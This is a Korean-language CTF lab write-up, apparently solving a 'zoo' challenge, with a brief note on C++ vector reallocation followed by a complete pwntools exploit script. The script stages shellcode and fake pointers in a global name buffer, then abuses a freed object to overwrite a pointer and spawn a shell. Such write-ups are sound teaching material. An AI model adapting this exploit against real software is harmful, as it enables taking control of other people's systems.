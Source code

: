 <br/> 

__주의할 점3__ <br/>
vector 객체는 push_back() 메소드를 호출하면 새로운 vector를 할당한 후에 복사한다.
<br/>

vector 참조 : <https://dokydoky.tistory.com/453>

# 풀이
***
```
#!/usr/bin/python

from pwn import *

def adddog(name,weight):
	p.recvuntil("choice :")
	p.sendline("1")
	p.recvuntil("\n")
	p.recvuntil("Name : ")
	p.sendline(name)
	p.recvuntil("Weight : ")
	p.sendline(weight)

def listen(index):
	p.recvuntil("choice :")
	p.sendline("3")
	p.recvuntil("\n")
	p.recvuntil("animal : ")
	p.sendline(index)

def remove(index):
	p.recvuntil("choice :")
        p.sendline("5")
        p.recvuntil("\n")
	p.recvuntil("animal : ")
	p.sendline(index)

file_path="/home/sungyun/round4/lab15/zoo"

context(arch="x86_64",os="linux")
shellcode = asm(shellcraft.sh())

nameofzoo=0x605420

p=process(file_path)

p.recvuntil("zoo :")
p.sendline("A"*8+p64(nameofzoo+16)+p64(nameofzoo+24)+"\x90"*10+shellcode)

adddog("ha_weeeeeee^___^","65")
adddog("ba_weeeeeee^___^","75")

remove("0")

pay="A"*40
pay+=p64(nameofzoo+8)

adddog(pay,"100")

listen("0")

p.interactive()
```